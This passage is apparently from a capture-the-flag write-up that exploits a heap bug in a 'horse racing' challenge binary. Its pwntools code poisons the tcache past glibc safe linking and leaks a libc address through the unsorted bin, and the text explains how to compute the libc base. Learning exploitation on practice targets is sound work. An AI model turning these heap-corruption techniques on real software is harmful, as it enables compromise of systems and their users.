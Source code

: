 ```python
	print(f"adding horse {i}")
	addHorse(i, 256, b"\xff")

#we start racing and grab the leaked data
ASLR, libc = getPointers()

#put two horses into tcache bin
removeHorse(0)
removeHorse(1)

#horse 1 is the first horse, make it point to 0xdeadbeef00 instead of horse 0
cheat(1, pwn.p64(0xdeadbeef00 ^ ASLR) + b"\xff")

#examine our work (make sure there is 0xdeadbeef00 pointer)
pwn.gdb.attach(p, "heap bins") 
time.sleep(2)
```

To get chunks into the unsorted bin we first need to saturate tcache, then our next chunk should end up unsorted, we can just use our previous code but add 9 (I add two chunks instead of one to the unsorted bin because for some reason the pointer goes away after allocation if the entire unsorted bin is claimed at once ) horses instead of the minimum of 5.

We also modify getPointers() to return the highest address leaked which will be libc leak
```python
print(f"Libc leak at {hex(max(leakedPointers))}!")
return min(leakedPointers), max(leakedPointers) 
```

Now an unsorted bin appears and it holds a pointer into libc! Even better, this pointer isn't mangled because safe linking only applies to fast and tcache bins!
<br>
![unsorted bins forced](images/gotUnsorted.png)
<br>
Now that we have leaked a libc address, we just need to find a value to offset it from to get libc base! The libc base can be found by typing `info proc mappings` into gdb and then you can subtract it from the value that is leaked. The number to add to the leaked address in this case is `-0x1bde10` (Although it seems allocating and freeing different numbers of chunks results in different numbers). 
